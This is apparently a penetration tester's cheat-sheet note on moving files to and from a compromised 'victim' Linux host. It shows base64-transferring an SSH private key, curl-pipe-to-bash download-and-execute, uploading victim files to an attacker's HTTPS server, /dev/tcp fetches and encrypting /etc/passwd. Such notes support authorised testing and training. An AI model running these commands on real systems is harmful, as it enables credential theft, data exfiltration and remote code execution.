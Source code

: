 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## Base64 Encode / Decode
Make sure to check the hash on both sides
```bash
# 1. Get the hash
md5sum id_rsa

# 2. Encode it (-w 0; echo, means its one line and easier to copy)
cat id_rsa | base64 -w 0; echo

# 3. [On victim] Decode it
echo -n '<paste>' | base64 -d > id_rsa

# 4. [On victim] Check hash
md5sum id_rsa
```

## Web Downloads
```bash
wget '<URL>' -O '<OutFile location>'

curl -o '<OutFile location>' '<URL>'
```

### Fileless Download
```bash
wget -qO- '<URL>' | python3

curl '<URL>' | bash
```

## Web Uploads
### Python uploadserver pkg
```bash
# 1. Install uploadserver python package
sudo python3 -m pip install --user uploadserver

# 2. [For HTTPS] Create server self-signed cert 
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# 3. Start the server
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# 4. [On Victim] Upload files to our server (can have multiple -F's for multi-file)
curl -X POST https://<ip>/upload -F 'files=@/<file path>' --insecure
```
### Other webservers
We can stand up a simple webserver on the victim machine and then download (`curl` / `wget`) the files onto our machine:
```bash
# Python3
python3 -m http.server

# Python2.7
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000
```

## Download with Bash (/dev/tcp)
Sometimes traditional methods don't work, if bash is v2.04+ & compiled with `--enable-net-redirects`, we can use the built-in `/dev/TCP` device file to download files.
```bash
# 1. Connect to the target webserver
exec 3<>/dev/tcp/<ip>/<port>

# 2. Get Request
echo -e "GET /<path> HTTP/1.1\n\n">&3

# 3. Print Response
cat <&3
```

## SSH Downloads
We can use `scp` to copy from one machine to another using SSH. We might need to setup an SSH server on our local machine:
```bash
sudo systemctl enable ssh
sudo systemctl start ssh

# Check for listening port (22)
netstat -lnpt | grep ":22"

# Use SCP
scp '<user>@<ip>:<file path>' '<local file path>'
```

## File Encryption
[OpenSSL](https://www.openssl.org/) is often included in many Linux distros and can be used to handle file encryption.
```bash
# Encrypt a file using AES256, with increased iterations and Password-Based Key Derivation Function 2 (pbpdf2)
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc

# Decrypt by adding the -d flag
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd
```
> Although this method is secure, using secure transport methods (eg. HTTPS, SFTP, or SSH) is still recommended where possible.